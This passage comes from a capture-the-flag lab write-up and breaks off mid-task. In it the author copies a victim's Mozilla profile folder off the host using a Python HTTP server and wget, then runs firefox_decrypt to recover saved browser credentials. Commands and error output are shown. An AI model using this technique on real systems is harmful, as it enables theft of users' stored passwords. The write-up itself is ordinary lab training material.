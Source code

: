 > the Directory `Utils` is only accessible by the user `system`. this might be the next step after we own `system`
{: .prompt-info }

after doing the usual privilege escalation enumeration manually and with linpeas i came back to the home directory. i was sure something is wrong with the mozille folder. why is it here?

and after digging into google i found something about firefox profiles and credentials inside. unfortunately these credentials are encrypted.

this tool might help me out.
[firefox_decypt](https://github.com/unode/firefox_decrypt)

i need at least python 3.9 installed to work with the latest version. this was not installed on the victim. so i zipped the mozilla folder to a directory i could write to and downloaded the zipped file with a simple python webserver.

```shell
python3 -m http.server 9000
```

```shell
wget http://vulnnet.thm:9000/mozilla.zip
```

after downloading `firefox_decryt` i executed the command but something was not working.

```shell
$ python3 ../../../../firefox_decrypt.py .
Select the Mozilla profile you wish to decrypt
1 -> 2o9vd4oi.default
2 -> 8mk7ix79.default-release
1
2022-11-09 04:18:39,262 - ERROR - Couldn't initialize NSS, maybe './2o9vd4oi.default' is not a valid profile?
```

```shell
$ python3 ../../../../firefox_decrypt.py .
Select the Mozilla profile you wish to decrypt
1 -> 2o9vd4oi.default
2 -> 8mk7ix79.default-release
2
2022-11-09 04:18:46,751 - ERROR - Couldn't find credentials file (logins.json or signons.sqlite).
```

i looked again though the folders and recognized there is a third folder that is not listed in the `profile` file.a

```shell
$ ls -la
total 36
drwxr-xr-x  7 j0j0pupp3 j0j0pupp3 4096 Nov  9 04:16  .
drwxr-xr-x  4 j0j0pupp3 j0j0pupp3 4096 Jun 14 11:56  ..
drwxr-xr-x 13 j0j0pupp3 j0j0pupp3 4096 Jun 14 10:43  2fjnrwth.default-release
drwxr-xr-x  2 j0j0pupp3 j0j0pupp3 4096 Jun 14 11:56  2o9vd4oi.default
drwxr-xr-x 13 j0j0pupp3 j0j0pupp3 4096 Jun 14 13:37  8mk7ix79.default-release
drwxr-xr-x  3 j0j0pupp3 j0j0pupp3 4096 Jun 14 11:56 'Crash Reports'
-rwxr-xr-x  1 j0j0pupp3 j0j0pupp3   62 Jun 14 11:56  installs.ini
drwxr-xr-x  2 j0j0pupp3 j0j0pupp3 4096 Jun 14 11:56 'Pending Pings'
-rwxr-xr-x  1 j0j0pupp3 j0j0pupp3  259 Nov  9 04:16  profiles.ini
```
